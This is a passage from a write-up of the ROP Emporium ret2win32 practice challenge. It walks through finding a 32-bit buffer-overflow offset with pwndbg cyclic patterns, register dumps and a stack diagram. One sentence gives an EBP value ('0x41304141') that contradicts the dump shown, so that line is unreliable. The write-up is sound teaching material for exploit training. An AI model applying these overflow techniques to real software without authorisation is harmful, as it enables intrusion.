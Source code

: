 So the address of `ret2win()` is `0x0804862c` in the 32-bit executable. One thing to note is that the arguments for a 32-bit function call are pushed on the stack whereas the arguments for a 64-bit function call are stored in registers. 

You can check out live overflow's video if you to know more differences in 64-bit and 32-bit assembly.

### Cyclic pattern

Let's create a cyclic pattern.
```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
Let's provide this pattern as the input.
```
───────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────
*EAX  0xb
*EBX  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
*ECX  0xf7fae9b4 (_IO_stdfile_1_lock) ◂— 0x0
*EDX  0x1
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0xffffd0f4 —▸ 0xffffd221 ◂— '/home/kunal/ropEmporium/ret2win32/ret2win32'
*EBP  0x6161616b ('kaaa')
*ESP  0xffffd020 ◂— 0x6161616d ('maaa')
*EIP  0x6161616c ('laaa')
```

We can see that the `ebp` has the value `0x41304141` which is the little endian `AA0A` in ASCII.

Let's find the offset of this value in our cyclic pattern.
```
pwndbg> cyclic -l 0x6161616b
Finding cyclic pattern of 4 bytes: b'kaaa' (hex: 0x6b616161)
Found at offset 40
```

So the offset is 40 bytes. 

Let's see how this looks on the stack.

```
<==: Value is stored at that location
<--: Points to the address

+---------------+ 
|  61 61 61 61  | <== buffer (32 bytes) <-- esp
|  62 61 61 61  | 
|  63 61 61 61  |
|  64 61 61 61  |
|  65 61 61 61  |
|  66 61 61 61  |
|  67 61 61 61  |
|  68 61 61 61  |
|  69 61 61 61  |
|  6A 61 61 61  |
+---------------+
|  6B 61 61 61  | <== stored ebp <-- ebp
+---------------+
|  6C 61 61 61  | <== return address
+---------------+
```
